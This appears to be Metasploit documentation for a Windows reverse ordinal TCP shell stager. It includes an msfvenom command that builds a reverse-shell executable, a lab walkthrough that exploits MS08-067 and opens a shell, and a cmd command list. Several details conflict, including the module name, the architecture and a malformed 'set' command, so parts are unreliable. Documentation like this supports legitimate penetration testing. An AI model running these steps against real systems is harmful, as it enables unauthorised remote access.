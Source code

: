 windows/shell/reverse_ord_tmp:Windows Command Shell, Reverse Ordinal TCP Stager is an unique windows payload for Metasploit Framework.
It is really small (<100 bytes), it uses the existing ws2_32.dll in memory in connect and load the next stage of the payload.

It provides a shell on the target machine which can be used to achieve almost anything on the target pc.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x64

## Verification Steps

windows/shell/reverse_tcp is typically used in two different ways.

1. As a payload for an exploit:

To check its compatibility with an exploit, select the exploit in the msf console and type the ```info``` command. The output will be similar to:

```
msf5 payload(windows/shell/reverse_tcp) > info

       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 283
       Rank: Normal

Provided by:
  spoonm <spoonm@no$email.com>
  sf <stephen_fewer@harmonysecurity.com>
  hdm <x@hdm.io>
  skape <mmiller@hick.org>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```


If the platform field includes Windows, then windows/shell/reverse_ord_tcp can be used as the
payload.

To use at as a payload for an exploit, use the following commands:
1. In msfconsole, select an exploit module compatible with windows.
2. Configure the options for that exploit.
3. Then run the following command: ```set windows/shell/reverse_ord_tcp```
4. Set the ```LHOST``` option, to be the IP address that the payload should connect to.
5. Then run the command: ```exploit```.

If the exploit is successful, the payload will get executed.


2. As a standalone(executable)

To use it as an executable, msfvenom can be used(msfvenom replaced msfpayload and msfencode in the year //)

A typical example of doing this is as follows:


```./msfvenom -p windows/shell/reverse_ord_tcp LHOST=192.168.23.1 LPORT=4444 -f exe -o /tmp/ordpayload.exe```

## Scenarios

The following commands are run on a Windows XP SP 2 English Machine:

```
msf exploit(windows/smb/ms08_067_netapi) > set payload windows/shell/reverse_ord_tcp
payload => windows/shell/reverse_ord_tcp
msf exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.56.3
RHOST => 192.168.56.3
msf exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.56.3     yes       The target address
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/shell/reverse_ord_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.1     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(windows/smb/ms08_067_netapi) > exploit
```

The above commands will result into the following scenario(leading to a shell on the target machine ):

```
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.3:445 - Automatically detecting the target...
[*] 192.168.56.3:445 - Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] 192.168.56.3:445 - Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] 192.168.56.3:445 - Attempting to trigger the vulnerability...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.56.3
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.3:1034) at 2018-08-17 15:25:02 +0530
```


## Important Basic Commands

Cmd Commands

Basics:
**call**    calls a batch file from another one
**cd**    change directory
**cls**    clear screen
**cmd**    start command prompt
**color**   change console color
**date**    show/set date
**dir**    list directory content
**echo**    text output
**exit**    exits the command prompt or a batch file
**find**    find files
**hostname**    display host name
**pause**   pauses the execution of a batch file and shows a message
**runas**    start a program as another user
**shutdown**    shutdown the computer
**sort**    sort the screen output
**start**    start an own window to execute a program or command
**taskkill**    terminate a process or a application
**tasklist**    display applications and related tasks
**time**    display/edit the system time
**timeout**    wait any time
**title**    set title for prompt
**ver**    display operating system version
**w32tm**    setting time synchronisation/time server/time zone

Network:
**ftp**    transfer files to a FTP server
**ftype**    display file type and mapping
**getmac**    display MAC address
**ipconfig**    display IP network settings
**netsh**    configure/control/display network components
**netstat**    display TCP/IP connections and status
**nslookup**    query the DNS
**pathping**    test the connection to a specific IP address
**ping**    pings the network
**route**    display network routing table, add static routes
**systeminfo**    displays computer-specific properties and configurations
**telnet**    establish Telnet connection
**tftp**    transfer files to a TFTP server
**tracert**    trace routes similar to patchping

Files:
**attrib**    display file attributes
**comp**    compare file contents
**compact**    display/change file compression
**copy / xcopy**    copy files
**diskcomp**    compare content of two floppy disks
**diskcopy**    copy floppy disc to another one
**erase / del**    delete one or more files
**expand**    extract files
**fc**    copare files and display the differences
**mkdir**    create a new directory
**move**    move/rename files
**rename**    rename files
**replace**    replace files
**rmdir / rd**    delete directory
**tree**    display folder structure graphically
**type**    display content of text files
**reg**    add/read/import/export registry entries

